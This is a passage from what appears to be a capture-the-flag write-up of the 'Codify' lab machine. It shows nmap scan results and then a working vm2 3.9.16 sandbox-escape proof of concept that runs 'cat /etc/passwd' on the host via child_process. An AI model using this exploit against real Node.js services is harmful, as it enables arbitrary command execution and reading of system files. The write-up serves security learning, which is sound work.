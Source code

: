 ```
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Codify
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=12/10%OT=22%CT=1%CU=43943%PV=Y%DS=2%DC=I%G=Y%TM=65761E
OS:2C%P=x86_64-unknown-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS
OS:=A)OPS(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M
OS:539ST11NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE
OS:88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
OS:=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.69 seconds

```
## Foothold
After some initial enumeration of the website, which allows testing of Node.js code, it was discovered, that the vm2 library version 3.9.16 is used for the sandboxing of the untrusted JavaScript code. This version is vulnerable to a sandbox escape through raising an unsanitized host exception. [Snyk][vm2-vuln] published the PoC shown below, which allows exection of the `cat /etc/passwd` command on the host machine.

```
const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("cat /etc/passwd").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
}
```


[vm2-vuln]: https://security.snyk.io/vuln/SNYK-JS-VM2-5537100